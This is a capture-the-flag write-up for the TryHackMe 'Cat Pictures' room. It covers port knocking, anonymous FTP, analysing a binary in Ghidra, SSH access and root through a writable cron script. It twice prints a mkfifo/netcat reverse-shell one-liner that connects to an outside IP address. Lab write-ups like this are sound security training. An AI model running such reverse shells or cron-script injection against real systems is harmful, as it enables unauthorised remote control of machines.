# Cat Pictures TryHackMe Writeup
### Level: `Easy` | OS: `Linux`



## Scanning
We use **nmap** to scan all ports, along with scripts and software versions.



## Enumeration
We access the web service, list a forum under the phpBB CMS.



We review the site, we find a post where they mention "knock" and a sequence, this already makes us think that there must be some other hidden service and that we will have to make use of port knock.



We make use of the **knock** tool of this [github](https://github.com/grongor/knock), we execute the tool following the port order.

We run **nmap** again and list a new port associated with the FTP service.



We connect through the **FTP service** using *"anonymous"* credentials, list a file *"note.txt"*, download, read content and it gives us credentials and instructions on where to use them.




## Exploitation
We use **netcat** to connect to the service, specify the password and get a connection to the machine.



We know the user thanks to the note that was in the **FTP service**, so we read the files in his folder and we see that to read it we will need to have an interactive shell.



Seeing that I could hardly execute any commands, I listed the whole list of available binaries, so I tried to invoke another new shell with this surprise:



#### Reverse shell with root



```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

Now it lets us run the binary, but it seems that something is wrong, we download the binary to our Kali, we examine it with **Ghidra** and we enumerate the *SSH password*.



Now we execute the binary with the password and we will obtain the *"id_rsa"* file to be able to access by **SSH**.



We connect via SSH, we are as root on the Docker machine.



#### Read flag.txt



## Privilege Escalation

We read the file *".bash_history"*, we find a log of executions in the system, thanks to it we list a script called *"clean.sh"* that runs in **crontab** (yes, the same one that deleted the files in the folder */tmp/* ;) ).



We transfer **pspy64** with **curl** (wget didn't work for me), give it permissions and run it to know the execution time of the *crontab script*.



We add our payload to obtain a *reverse shell* and put a **netcat** listening.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```



We wait a few minutes and we will be able to read the *root flag*.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
